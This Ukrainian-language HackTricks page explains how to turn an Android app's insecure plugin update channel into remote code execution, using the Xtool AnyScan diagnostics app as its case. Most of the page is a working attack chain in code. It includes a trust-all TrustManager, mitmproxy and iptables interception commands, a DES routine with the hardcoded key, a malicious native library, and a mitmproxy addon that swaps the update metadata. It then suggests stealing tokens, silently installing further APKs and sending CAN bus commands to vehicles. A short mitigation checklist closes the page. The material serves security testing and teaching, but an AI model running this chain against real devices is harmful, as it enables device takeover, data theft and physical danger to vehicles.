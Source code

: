 # Небезпечні механізми оновлення в додатках – віддалене виконання коду через шкідливі плагіни

{{#include ../../banners/hacktricks-training.md}}

Багато Android-додатків реалізують **свої власні канали оновлення “плагінів” або “динамічних функцій”** замість використання Google Play Store. Коли реалізація є небезпечною, зловмисник, здатний перехопити трафік, може постачати **произвольний нативний код, який буде завантажено в процес додатка**, що призводить до повного віддаленого виконання коду (RCE) на пристрої – і в деяких випадках на будь-якому зовнішньому пристрої, контрольованому додатком (автомобілі, IoT, медичні пристрої …).

Ця сторінка підсумовує реальний ланцюг вразливостей, виявлений у додатку для автомобільної діагностики Xtool **AnyScan** (v4.40.11 → 4.40.40) і узагальнює техніку, щоб ви могли перевірити інші Android-додатки та використати неправильну конфігурацію під час участі в червоній команді.

---
## 1. Визначення небезпечного TLS TrustManager

1. Декомпілюйте APK за допомогою jadx / apktool і знайдіть стек мережі (OkHttp, HttpUrlConnection, Retrofit…).
2. Шукайте **кастомний `TrustManager`** або `HostnameVerifier`, який сліпо довіряє кожному сертифікату:
```java
public static TrustManager[] buildTrustManagers() {
return new TrustManager[]{
new X509TrustManager() {
public void checkClientTrusted(X509Certificate[] chain, String authType) {}
public void checkServerTrusted(X509Certificate[] chain, String authType) {}
public X509Certificate[] getAcceptedIssuers() {return new X509Certificate[]{};}
}
};
}
```
3. Якщо присутній, програма прийме **будь-який TLS сертифікат** → ви можете запустити прозорий **MITM проксі** з самопідписаним сертифікатом:
```bash
mitmproxy -p 8080 -s addon.py  # see §4
iptables -t nat -A OUTPUT -p tcp --dport 443 -j REDIRECT --to-ports 8080  # on rooted device / emulator
```
## 2. Реверс-інжиніринг метаданих оновлення

У випадку AnyScan кожен запуск програми викликає HTTPS GET до:
```
https://apigw.xtoolconnect.com/uhdsvc/UpgradeService.asmx/GetUpdateListEx
```
Тіло відповіді є **XML документом**, в якому вузли `<FileData>` містять **Base64-кодовані, DES-ECB зашифровані** JSON, що описує кожен доступний плагін.

Типові кроки для пошуку:
1. Знайти криптографічну рутину (наприклад, `RemoteServiceProxy`) і відновити:
* алгоритм (DES / AES / RC4 …)
* режим роботи (ECB / CBC / GCM …)
* зашитий ключ / IV (часто 56-бітні DES ключі або 128-бітні AES ключі в константах)
2. Реалізувати функцію на Python для розшифрування / шифрування метаданих:
```python
from Crypto.Cipher import DES
from base64 import b64decode, b64encode

KEY = IV = b"\x2A\x10\x2A\x10\x2A\x10\x2A"  # 56-bit key observed in AnyScan

def decrypt_metadata(data_b64: str) -> bytes:
cipher = DES.new(KEY, DES.MODE_ECB)
return cipher.decrypt(b64decode(data_b64))

def encrypt_metadata(plaintext: bytes) -> str:
cipher = DES.new(KEY, DES.MODE_ECB)
return b64encode(cipher.encrypt(plaintext.ljust((len(plaintext)+7)//8*8, b"\x00"))).decode()
```
## 3. Створіть шкідливий плагін

1. Виберіть будь-який легітимний ZIP плагін і замініть рідну бібліотеку на ваш вантаж:
```c
// libscan_x64.so – constructor runs as soon as the library is loaded
__attribute__((constructor))
void init(void){
__android_log_print(ANDROID_LOG_INFO, "PWNED", "Exploit loaded! uid=%d", getuid());
// spawn reverse shell, drop file, etc.
}
```

```bash
$ aarch64-linux-android-gcc -shared -fPIC payload.c -o libscan_x64.so
$ zip -r PWNED.zip libscan_x64.so assets/ meta.txt
```
2. Оновіть метадані JSON так, щоб `"FileName" : "PWNED.zip"` і `"DownloadURL"` вказували на ваш HTTP сервер.  
3. Зашифруйте DES + закодуйте в Base64 змінений JSON і вставте його назад у перехоплений XML.

## 4. Доставте Payload за допомогою mitmproxy

`addon.py` приклад, який *безшумно* замінює оригінальні метадані:
```python
from mitmproxy import http
MOD_XML = open("fake_metadata.xml", "rb").read()

def request(flow: http.HTTPFlow):
if b"/UpgradeService.asmx/GetUpdateListEx" in flow.request.path:
flow.response = http.Response.make(
200,
MOD_XML,
{"Content-Type": "text/xml"}
)
```
Запустіть простий веб-сервер для хостингу шкідливого ZIP:
```bash
python3 -m http.server 8000 --directory ./payloads
```
Коли жертва запускає додаток, він буде:
* отримувати наш підроблений XML через канал MITM;
* розшифровувати та парсити його за допомогою жорстко закодованого DES ключа;
* завантажувати `PWNED.zip` → розпаковувати в приватному сховищі;
* `dlopen()` включену *libscan_x64.so*, миттєво виконуючи наш код **з дозволами додатка** (камера, GPS, Bluetooth, файловий система тощо).

Оскільки плагін кешується на диску, бекдор **зберігається після перезавантажень** і запускається щоразу, коли користувач вибирає відповідну функцію.

## 5. Ідеї після експлуатації

* Вкрасти сесійні куки, токени OAuth або JWT, збережені додатком.
* Скинути APK другого етапу та тихо встановити його через `pm install` (додаток вже має `REQUEST_INSTALL_PACKAGES`).
* Зловживати будь-яким підключеним обладнанням – у сценарії AnyScan ви можете надсилати довільні **OBD-II / CAN bus команди** (відкрити двері, вимкнути ABS тощо).

---
### Перелік виявлення та пом'якшення (синя команда)

* НІКОЛИ не відправляйте виробничу версію з кастомним TrustManager/HostnameVerifier, який вимикає перевірку сертифікатів.
* Не завантажуйте виконуваний код ззовні Google Play. Якщо ви *повинні*, підписуйте кожен плагін тим самим **apkSigning v2** ключем і перевіряйте підпис перед завантаженням.
* Замініть слабку/жорстко закодовану криптографію на **AES-GCM** та серверний обертовий ключ.
* Перевіряйте цілісність завантажених архівів (підпис або принаймні SHA-256).

---
## Посилання

- [NowSecure – Виявлено віддалене виконання коду в додатку Xtool AnyScan](https://www.nowsecure.com/blog/2025/07/16/remote-code-execution-discovered-in-xtool-anyscan-app-risks-to-phones-and-vehicles/)
- [Android – Небезпечні шаблони TrustManager](https://developer.android.com/privacy-and-security/risks/unsafe-trustmanager)

{{#include ../../banners/hacktricks-training.md}}
